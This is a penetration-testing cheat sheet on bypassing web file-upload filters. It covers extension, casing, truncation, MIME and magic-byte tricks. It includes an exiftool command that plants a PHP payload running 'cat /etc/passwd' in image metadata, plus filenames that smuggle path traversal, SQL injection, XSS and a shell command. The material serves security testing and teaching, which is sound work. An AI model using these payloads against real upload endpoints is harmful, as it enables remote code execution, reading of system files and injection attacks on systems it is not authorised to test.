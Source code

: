 # File upload

# Intercept with proxy (double extension)
In case a file is uploaded with **double extensions** follow the steps below:

1. Make the web request
2. Intercept traffic with proxy
3. Remove the extension that indicates that the file is an image. `.png` `.jpg`
4. Forward the request
5. Open the uploaded file


# File extension types
Developers might blacklist some extension. However, this can be bypassed by using alternative extensions.

| Type       | Extension                                  |
|------------|--------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, and .inc |
| asp        | asp, .aspx                                 |
| perl       | .pl, .pm, .cgi, .lib                       |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf         |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                    |


## Letter casing
One should also consider changing the casing of the letters.
```
.pHp
.PHP
.Php
```

## Double extensions and junk data
Adding a decoy extension before the real one
```
file.png.php
```
Adding (junk) meaningless data in front of the extension
```
file.#.png
file.phpjunkDatapng
file.php%0a.png
```


## Special characters
```
file.php/
file.php....
file.
file.php%20
```


# Breaking filename length
1. Try what the maximum length accepted for the file name is, by  adding a bunch of A's to the file name with the extension at the end.   *(Linux maximum is 255 bytes)*
2. Upload the file and see how many characters it allows.
3. Add a valid and a `.php` extension to the file. Make it so that the valid extension gets cut off and the `.php` extension remains.

## Example
1. Assume max file length is 255
2. 251 A's and .php extension add up to 255
3. AAA< SNIP 251 >AAA.php.png
This way, the `.png` gets cut off and leaves the `.php`


# MIME type
Even `MIME` types can be blacklisted by developers.		
By intercepting the traffic one can simply change it, to appeal to the server.				

Normal php MIME type:
```
Content-type: application/x-php
```
Replace with:
```
Content-type: image/jpeg
```


# Magic bytes
If an application uses the file's magic bytes to determine the `Content-Type` one can easily bypass it with changing the files magic bytes.

**Table of magic bytes**
| Type | Bytes                            |
|------|----------------------------------|
| GIF  | GIF89a;\x0a                      |
| JPG  | \xFF\xD8\xFF\xDB                 |
| PNG  | \x89\x50\x4E\x47\x0D\x0A\x1A\x0A |
| TAR  | \x75\x73\x74\x61\x72\x00\x30\x30 |

1. Open the file in `hexeditor`:
	```bash
	hexeditor <file>
	```
2.  Edit the first few bytes so that it fits the file type of your choice.
	```
	# In hexeditor (original)
	00 00 00 00

	# In hexeditor (changed to JPG)
	FF D8 FF DB
	```


# PHP getimagesize()
If a file's size gets validated with the `getimagesize()` function, it is possible to add a payload into the image's metadata with `exiftool`.
1. Add payload
	```bash
	exiftool -Comment='<?php system("cat /etc/passwd") ?>' <jpg_file>
	```
2. Change file type
	```
	mv file.jpg	file.php.jpg
	```
3. Upload to server (proxy intercept)



# From file upload to other vulnerabilities
- Set **filename** to `../../../dev/shm/file.jpg` for **path traversal**
- Set **filename** to `sleep(10)-- -.jpg` for **SQL injection**
- Set **filename** to `<svg onload=alert(document.comain)>` for **XSS**
- Set **filename** to `; sleep 10;` for **command injection**
